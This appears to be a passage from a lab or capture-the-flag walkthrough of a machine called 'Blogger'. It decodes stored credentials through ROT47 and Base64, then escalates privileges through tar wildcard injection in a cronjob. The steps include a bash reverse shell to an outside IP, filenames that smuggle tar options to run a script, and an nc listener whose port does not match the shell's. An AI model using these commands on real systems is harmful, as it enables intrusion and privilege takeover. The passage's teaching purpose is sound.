 ```shell
cat .creds

';u22>'v$)='2a#B&>`c'=+C(?5(|)q**bAv2=+E5s'+|u&I'vDI(uAt&=+(|`yx')Av#>'v%?}:#=+)';y@%'5(2vA!'<y$&u"H!"ll
```
- This encode characters can be identified as Rot47, then we can make use of a web page as the following to decode this string:
- https://www.dcode.fr/rot-47-cipher

And now we have a Base64 encoded string.
```shell
VjFaamVGSXlVa2RqUm14VlZrWndWMXBYY3pGalZtdDVZMFUxVGsxWFpEUlZWM1JIVXpGRmVGTnNiRlZXVjJoTVdWaGpPVkJSUFQwPQ==
```
- We decoded this string 4 times and at the end a pair of credentials were found:
```shell
echo "base64 string" | base64 -d

james:S3cr37_P@$$W0rd
```
#### Shell as james
```shell
su james
```
![01-Blogger-12](00-Assets/01-Blogger-12.png)


## Privilege Escalation
### Method 1
Now we can go back to the scheduled task.
#### Tar Abuse - Cronjob
```shell
echo 'bash -c "/bin/bash -i >& /dev/tcp/192.168.45.204/80 0>&1"' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
- Now we need to wait for the reverse shell to be executed
#### Listener
```shell
nc -lnvp 4444
```
![01-Blogger-13](00-Assets/01-Blogger-13.png)
